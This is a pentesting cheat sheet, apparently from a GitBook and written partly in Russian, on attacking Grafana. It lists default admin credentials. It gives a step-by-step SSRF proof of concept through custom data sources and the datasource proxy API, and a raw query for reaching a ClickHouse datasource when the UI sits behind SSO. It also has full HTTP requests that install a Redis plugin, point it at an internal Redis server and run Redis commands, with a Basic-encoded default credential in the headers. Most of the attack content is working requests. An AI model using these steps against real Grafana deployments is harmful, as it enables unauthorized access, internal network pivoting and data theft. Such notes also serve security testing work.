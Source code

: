 # Grafana

### Default Creds

`admin:admin`

`admin:prom-operator`

`admin:openbmp`

### SSRF

Присутствует возможность создать свой data source и обращаться к любому ресурсу по http/tcp, который был указан в качестве источника и получать ответ

**PoC:**

1. Развернем тестовую среду из 2 контейнеров: Grafana и Nginx.

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

2. создадим data source и выберем тип Prometheus, потому что он отправляет запросы по http. В качестве источника выберем nginx

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

3. Отправим запрос к api grafana `/api/datasources`, чтобы получить id нашего data soruce

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

4. с помощью `curl -u admin:admin -s http://10.172.1.22:3000/api/datasources/proxy/4` отправим запрос на установленный ресурс и получим ответ

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Мы можем отправлять запросы от лица grafana к любым ресурсам и по любым протоколам, в зависимости от datasources, которые мы найдем



### Send requests to grafana-clickhouse-datasource via api

If Grafana's ui is behind SSO unlike api

```json
{
  "queries": [
    {
      "refId": "A",
      "datasource": {
        "type": "grafana-clickhouse-datasource",
        "uid": "ce4qblsezmupsf"
      },
      "editorType": "sql",
      "queryType": "table",
      "rawSql": "SELECT * FROM system.databases",
      "format": 1,
      "meta": {
        "builderOptions": {
          "database": "",
          "table": "",
          "queryType": "table",
          "columns": [],
          "mode": "list",
          "limit": 1000
        },
        "timezone": "Europe/Moscow"
      },
      "pluginVersion": "4.5.0",
      "datasourceId": 8
    }
  ]
}
```



### SSRF for **redis** datasource

In this example without auth

Install

```http
POST /api/plugins/redis-datasource/install HTTP/1.1
Host: grafana-host:3000
Content-Length: 19
content-type: application/json
Authorization: Basic YWRtaW46cHJvbS1vcGVyYXRvcg==

{"version":"2.2.0"}
```

Create

```http
POST /api/datasources/ HTTP/1.1
Host: grafana-host:3000
Content-Length: 719
content-type: application/json
Authorization: Basic YWRtaW46cHJvbS1vcGVyYXRvcg==

{"name":"redis-datasource","type":"redis-datasource","typeLogoUrl":"public/plugins/redis-datasource/img/logo.svg","access":"proxy","url":"redis://redis-ip:6379","user":"","database":"","basicAuth":false,"basicAuthUser":"","withCredentials":false,"isDefault":true,"jsonData":{},"secureJsonFields":{},"version":1,"readOnly":false,"accessControl":{"alert.instances.external:read":true,"alert.instances.external:write":true,"alert.notifications.external:read":true,"alert.notifications.external:write":true,"alert.rules.external:read":true,"alert.rules.external:write":true,"datasources.id:read":true,"datasources:delete":true,"datasources:query":true,"datasources:read":true,"datasources:write":true},"apiVersion":""}
```

Execute commands

```http
POST /api/ds/query?ds_type=redis-datasource&requestId=explore_p34 HTTP/1.1
Host: grafana-host:3000
content-type: application/json
Authorization: Basic YWRtaW46cHJvbS1vcGVyYXRvcg==
Content-Length: 336

{"queries":[{"refId":"A","datasource":{"type":"redis-datasource","uid":"a7970ec5-1e24-4487-9f8b-630aac99b8ec"},"type":"cli","query":"keys *","command":"","keyName":"","field":"","filter":"","legend":"","value":"","path":"","cypher":"","datasourceId":4,"intervalMs":5000,"maxDataPoints":700}],"from":"1750785164811","to":"1750788764811"}
```
